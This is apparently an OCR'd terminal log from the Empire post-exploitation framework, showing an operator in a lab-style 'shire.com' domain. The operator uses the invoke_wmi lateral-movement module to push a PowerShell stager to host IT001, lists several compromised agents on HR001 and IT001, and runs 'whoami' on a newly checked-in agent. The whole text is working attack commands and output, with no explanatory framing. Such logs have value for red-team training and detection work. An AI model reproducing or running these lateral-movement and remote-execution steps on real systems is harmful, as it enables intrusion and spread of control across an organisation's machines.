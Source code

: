 ```
                                                     command.                                
  ProxyCreds   False       default                   Proxy credentials                       
                                                     ([domain\]username:password) to use for 
                                                     request (default, none, or other).      
  UserAgent    False       default                   User-agent string to use for the staging
                                                     request (default, none, or other).      
  Password     False                                 Password to use to execute command.     
  Agent        True        V6W3TH8Y                  Agent to run module on.                 

(Empire: powershell/lateral_movement/invoke_wmi) > set Listener https
(Empire: powershell/lateral_movement/invoke_wmi) > set ComputerName IT001.shire.com
(Empire: powershell/lateral_movement/invoke_wmi) > execute
[*] Tasked V6W3TH8Y to run TASK_CMD_WAIT
[*] Agent V6W3TH8Y tasked with task ID 6
[*] Tasked agent V6W3TH8Y to run module powershell/lateral_movement/invoke_wmi
(Empire: powershell/lateral_movement/invoke_wmi) > Invoke-Wmi executed on "IT001.shire.com"
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent ZLPB8CV3 checked in
[+] Initial agent ZLPB8CV3 from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to ZLPB8CV3 at 10.0.10.103

(Empire: powershell/lateral_movement/invoke_wmi) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 21:45:47  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 21:45:44  https           
 EMDBFPSY ps 172.18.39.106   HR001             SHIRE\nmartha           notepad            7924   5/0.0    2019-05-18 21:45:43  https           

 V6W3TH8Y ps 172.18.39.106   HR001             SHIRE\pgustavo          powershell         5204   5/0.0    2019-05-18 21:45:43  https           
 38APWSR1 ps 172.18.39.105   IT001             *SHIRE\pgustavo         MSBuild            5656   5/0.0    2019-05-18 21:45:46  https           
 ZLPB8CV3 ps 172.18.39.105   IT001             *SHIRE\pgustavo         powershell         5804   5/0.0    2019-05-18 21:45:44  https           


(Empire: agents) > interact ZLPB8CV3
(Empire: ZLPB8CV3) > shell whoami
[*] Tasked ZLPB8CV3 to run TASK_SHELL
[*] Agent ZLPB8CV3 tasked with task ID 1
(Empire: ZLPB8CV3) > shire\pgustavo
..Command execution completed.

(Empire: ZLPB8CV3) >
```